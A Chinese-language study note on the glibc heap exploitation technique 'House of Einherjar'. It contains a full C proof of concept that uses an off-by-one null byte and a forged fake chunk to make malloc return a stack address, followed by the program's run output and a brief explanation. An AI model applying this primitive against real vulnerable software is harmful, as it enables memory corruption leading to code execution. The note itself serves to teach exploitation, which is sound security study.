


# house of einherjar 笔记

### 0x1 介绍

通过`off by one `漏洞，获取任意地址的空间。

### 0x2 分析

#### 前提

拥有`off by one `漏洞。

#### 源码实例

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

/*
   Credit to st4g3r for publishing this technique
   The House of Einherjar uses an off-by-one overflow with a null byte to control the pointers returned by malloc()
   This technique may result in a more powerful primitive than the Poison Null Byte, but it has the additional requirement of a heap leak. 
*/

int main()
{
	fprintf(stderr, "Welcome to House of Einherjar!\n");
	fprintf(stderr, "Tested in Ubuntu 16.04 64bit.\n");
	fprintf(stderr, "This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.\n");
	fprintf(stderr, "This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

	uint8_t* a;
	uint8_t* b;
	uint8_t* d;

	fprintf(stderr, "\nWe allocate 0x38 bytes for 'a'\n");
	a = (uint8_t*) malloc(0x38);
	fprintf(stderr, "a: %p\n", a);
    
    int real_a_size = malloc_usable_size(a);
    fprintf(stderr, "Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: %#x\n", real_a_size);

    // create a fake chunk
    fprintf(stderr, "\nWe create a fake chunk wherever we want, in this case we'll create the chunk on the stack\n");
    fprintf(stderr, "However, you can also create the chunk in the heap or the bss, as long as you know its address\n");
    fprintf(stderr, "We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");
    fprintf(stderr, "(although we could do the unsafe unlink technique here in some scenarios)\n");

    size_t fake_chunk[6];

    fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t) fake_chunk; // fwd
    fake_chunk[3] = (size_t) fake_chunk; // bck
    fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
    
    
    fprintf(stderr, "Our fake chunk at %p looks like:\n", fake_chunk);
    fprintf(stderr, "prev_size (not used): %#lx\n", fake_chunk[0]);
    fprintf(stderr, "size: %#lx\n", fake_chunk[1]);
    fprintf(stderr, "fwd: %#lx\n", fake_chunk[2]);
    fprintf(stderr, "bck: %#lx\n", fake_chunk[3]);
    fprintf(stderr, "fwd_nextsize: %#lx\n", fake_chunk[4]);
    fprintf(stderr, "bck_nextsize: %#lx\n", fake_chunk[5]);

	/* In this case it is easier if the chunk size attribute has a least significant byte with
	 * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
	 * the chunk includes the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);

	fprintf(stderr, "\nWe allocate 0xf8 bytes for 'b'.\n");
	fprintf(stderr, "b: %p\n", b);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
    /* This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit*/

	fprintf(stderr, "\nb.size: %#lx\n", *b_size_ptr);
	fprintf(stderr, "b.size is: (0x100) | prev_inuse = 0x101\n");
	fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; 
	fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
    fprintf(stderr, "This is easiest if b.size is a multiple of 0x100 so you "
           "don't change the size of b, only its prev_inuse bit\n");
    fprintf(stderr, "If it had been modified, we would need a fake chunk inside "
           "b where it will try to consolidate the next chunk\n");

    // Write a fake prev_size to the end of a
    fprintf(stderr, "\nWe write a fake prev_size to the last %lu bytes of a so that "
           "it will consolidate with our fake chunk\n", sizeof(size_t));
    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    fprintf(stderr, "Our fake prev_size will be %p - %p = %#lx\n", b-sizeof(size_t)*2, fake_chunk, fake_size);
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;

    //Change the fake chunk's size to reflect b's new prev_size
    fprintf(stderr, "\nModify fake chunk's size to reflect b's new prev_size\n");
    fake_chunk[1] = fake_size;

    // free b and it will consolidate with our fake chunk
    fprintf(stderr, "Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set\n");
    free(b);
    fprintf(stderr, "Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    //if we allocate another chunk before we free b we will need to 
    //do two things: 
    //1) We will need to adjust the size of our fake chunk so that
    //fake_chunk + fake_chunk's size points to an area we control
    //2) we will need to write the size of our fake chunk
    //at the location we control. 
    //After doing these two things, when unlink gets called, our fake chunk will
    //pass the size(P) == prev_size(next_chunk(P)) test. 
    //otherwise we need to make sure that our fake chunk is up against the
    //wilderness

    fprintf(stderr, "\nNow we can call malloc() and it will begin in our fake chunk\n");
    d = malloc(0x200);
    fprintf(stderr, "Next malloc(0x200) is at %p\n", d);
}
```

```shell
➜  glibc_2.25 git:(master) ✗ ./house_of_einherjar
Welcome to House of Einherjar!
Tested in Ubuntu 16.04 64bit.
This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.

We allocate 0x38 bytes for 'a'
a: 0x555555757010
Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: 0x38

We create a fake chunk wherever we want, in this case we'll create the chunk on the stack
However, you can also create the chunk in the heap or the bss, as long as you know its address
We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks
(although we could do the unsafe unlink technique here in some scenarios)
Our fake chunk at 0x7fffffffe4a0 looks like:
prev_size (not used): 0x100
size: 0x100
fwd: 0x7fffffffe4a0
bck: 0x7fffffffe4a0
fwd_nextsize: 0x7fffffffe4a0
bck_nextsize: 0x7fffffffe4a0

We allocate 0xf8 bytes for 'b'.
b: 0x555555757050

b.size: 0x101
b.size is: (0x100) | prev_inuse = 0x101
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100
This is easiest if b.size is a multiple of 0x100 so you don't change the size of b, only its prev_inuse bit
If it had been modified, we would need a fake chunk inside b where it will try to consolidate the next chunk

We write a fake prev_size to the last 8 bytes of a so that it will consolidate with our fake chunk
Our fake prev_size will be 0x555555757040 - 0x7fffffffe4a0 = 0xffffd55555758ba0

Modify fake chunk's size to reflect b's new prev_size
Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set
Our fake chunk size is now 0xffffd55555779b61 (b.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk
Next malloc(0x200) is at 0x7fffffffe4b0
```

#### 原理分析

大致是这样的：

我们拥有一个`off by one`漏洞。

目的就是如下图：


溢出前：



溢出后：



首先构造好`fake chunk`，计算出`fake chunk`和`chunk b`的距离。

然后通过`chunk a`的`off by one`漏洞，修改`pre_inuse`位，保证`free(b)`可以`unlink`前一个`chunk`。

同时修改`chunk b`的`pre_size`字段为`fake chunk`和`chunk b`的距离。

`free(b)`。就可以将`fake chunk`放进Bin。

再次`malloc()`就可以获得`fake chunk`附近的内存。